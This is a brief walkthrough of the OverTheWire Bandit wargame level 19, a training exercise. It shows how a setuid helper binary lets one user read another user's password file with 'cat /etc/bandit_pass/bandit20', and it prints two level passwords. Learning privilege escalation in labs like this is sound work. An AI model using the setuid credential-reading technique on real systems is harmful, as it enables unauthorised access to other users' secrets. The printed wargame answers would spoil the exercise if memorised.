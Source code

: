 The suid binary executes as bandit20, therefore we can exploit this to peek at bandit20’s password as bandit19. 


[$]-> ssh bandit19@bandit.labs.overthewire.org -p 2220

[$]-> IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x

[$]-> ls

[$]-> ./bandit20-do

# Run a command as another user.

[$]-> ./bandit20-do id

[$]-> ./bandit20-do whoami

[$]-> ./bandit20-do cat /etc/bandit_pass/bandit20

The password for bandit20 is: GbKksEFF4yrVs6il55v6gwY5aVje5f0j
